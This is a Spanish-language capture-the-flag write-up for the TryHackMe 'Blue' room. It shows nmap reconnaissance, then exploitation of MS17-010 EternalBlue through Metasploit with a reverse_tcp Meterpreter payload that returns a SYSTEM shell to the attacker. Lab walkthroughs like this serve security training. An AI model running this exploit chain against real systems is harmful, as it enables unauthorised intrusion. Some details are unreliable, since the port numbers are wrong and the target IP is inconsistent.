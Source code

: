 ```yaml
---
title : Máquina|Blue
published : True
---
```

<div class="contenedor">
    <img src="imgs/blue/blue.gif" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Facil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>


<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
>
<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
>
<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
>
<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
>
<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
>
<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
>
<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
>
<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
>
<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
>
<img src="/imgs/blue/blue8.jpg"/>
* <p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system.</p>
* <p>Ok maquina vulnerada</p>

